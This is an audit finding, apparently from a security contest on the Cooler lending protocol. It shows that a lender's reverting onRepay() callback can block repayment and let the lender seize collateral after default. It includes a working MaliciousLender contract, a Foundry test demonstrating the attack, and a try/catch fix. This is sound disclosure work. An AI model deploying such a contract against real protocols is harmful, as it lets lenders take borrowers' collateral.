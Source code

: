 Shaggy Teal Blackbird

high

# Lender can block repayment by reverting on `onRepay()` callback
## Summary
The procotols implements a way to callback the lender at each important function call. There is such a callback in the `repayLoan()` function which allows the borrower to repay the loan.
If the lender implements the callbacks functionnality but reverts on `onRepay()` callback, this prevents the borrower from repaying the loan. The lender can then wait until the loan expires to claim the defaulted loan's collateral.

## Vulnerability Detail
In the `repayLoan()` function, this external call is made to the lender:
```solidity
File: Cooler.sol

L184: // If necessary, trigger lender callback.
        if (loan.callback) CoolerCallback(loan.lender).onRepay(loanID_, repaid_); // @audit lender can revert this call
        return decollateralized;
```
https://github.com/ohmzeus/Cooler/blob/c6f2bbe1b51cdf3bb4d078875170177a1b8ba2a3/src/Cooler.sol#L184

If the `onRepay()` function of the lender reverts, this permanently blocks the borrower from repaying his debt.
The lender can then wait until the loan defaults to "steal" the collateral.

## Impact
### Proof of Concept
Here is a malicious contract that can perform this attack:
```solidity
// SPDX-License-Identifier: AGPL-3.0
pragma solidity ^0.8.0;

import {CoolerCallback} from "src/CoolerCallback.sol";
import {Cooler} from "src/Cooler.sol";
import {ERC20} from "solmate/tokens/ERC20.sol";

contract MaliciousLender is CoolerCallback {
    address owner;
    constructor(address coolerFactory_) CoolerCallback(coolerFactory_) {
        owner = msg.sender;
    }
    
    // Revert on repay. This block borrower from repaying the loan
    function _onRepay(uint256, uint256) internal override {
        revert("Hahah you cannot repay");
    }

    function clearRequest(address cooler, uint256 reqID_) external returns (uint256 loanID){
        require(msg.sender == owner, "Only owner");
        ERC20 debt = Cooler(cooler).debt();
        uint256 amount = Cooler(cooler).getRequest(reqID_).amount;
        debt.transferFrom(msg.sender, address(this), amount);
        debt.approve(cooler, amount);
        loanID = Cooler(cooler).clearRequest(reqID_, true, true);
    }

    function claimDefaulted(address cooler, uint256 loanID_) external {
        Cooler(cooler).claimDefaulted(loanID_);
        withdraw(address(Cooler(cooler).collateral()));
    }

    function withdraw(address token) public {
        require(msg.sender == owner, "Only owner");
        ERC20(token).transfer(msg.sender, ERC20(token).balanceOf(address(this)));
    }

    function _onRoll(uint256, uint256, uint256) internal override {/* Do nothing */}
    function _onDefault(uint256, uint256, uint256) internal override {/* Do nothing */}
}
```
You can add this test to `Cooler.t.sol` to showcase the attack process.
```solidity
function test_EXPLOIT_Lender_blocks_repaiment() public {
    // test inputs
    uint256 reqAmount_ = 1000e18;
    uint256 repayAmount_ = reqAmount_/2;
    // test setup
    cooler = _initCooler();
    (uint256 reqID, ) = _requestLoan(reqAmount_);
    uint256 initCoolerCollat = collateral.balanceOf(address(cooler));
    assertEq(collateral.balanceOf(address(lender)), 0); // Lender starts with 0 collateral tokens
    console2.log("collateral: cooler balance = ",collateral.balanceOf(address(cooler)));
    console2.log("collateral: lender balance = ",collateral.balanceOf(address(lender)));

    // Lender creates MaliciousLender contract and clear the loan request
    vm.startPrank(lender);
    MaliciousLender maliciousLender = new MaliciousLender(address(coolerFactory));
    debt.approve(address(maliciousLender), reqAmount_);
    uint256 loanID = maliciousLender.clearRequest(address(cooler), reqID);
    vm.stopPrank();

    // block.timestamp < loan expiry
    vm.warp(block.timestamp + 15 days);
    console2.log("15 days passed...");

    vm.startPrank(owner);
    // Aprove debt so that it can be transferred by cooler
    debt.approve(address(cooler), repayAmount_);
    // Owner can't repay the loan because transactionis reverted by maliciousLender
    vm.expectRevert("Hahah you cannot repay");
    cooler.repayLoan(loanID, repayAmount_);
    vm.stopPrank();
    console2.log("[-] Owner was not able to repay his loan");

    // block.timestamp > loan expiry
    vm.warp(block.timestamp + DURATION + 1);
    console2.log("Few days passed, loan is now exipred...");

    // Lender claims the defaulted loan
    vm.startPrank(lender);
    debt.approve(address(maliciousLender), reqAmount_);
    maliciousLender.claimDefaulted(address(cooler), loanID);
    vm.stopPrank();
    console2.log("[+] Lender claimed faulted loan");

    assertEq(collateral.balanceOf(address(lender)), initCoolerCollat); // Lender got all the collateral tokens
    assertEq(collateral.balanceOf(address(cooler)), 0); // Lender got all the collateral tokens
    console2.log("collateral: cooler balance = ",collateral.balanceOf(address(cooler)));
    console2.log("collateral: lender balance = ",collateral.balanceOf(address(lender)));
}
```

## Code Snippet
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Cooler.sol#L185

## Tool used

Manual Review + Foundry

## Recommendation
One way to prevent this issue is by adding a try/catch statement around the callback statements (apply this to `onRoll()` too).
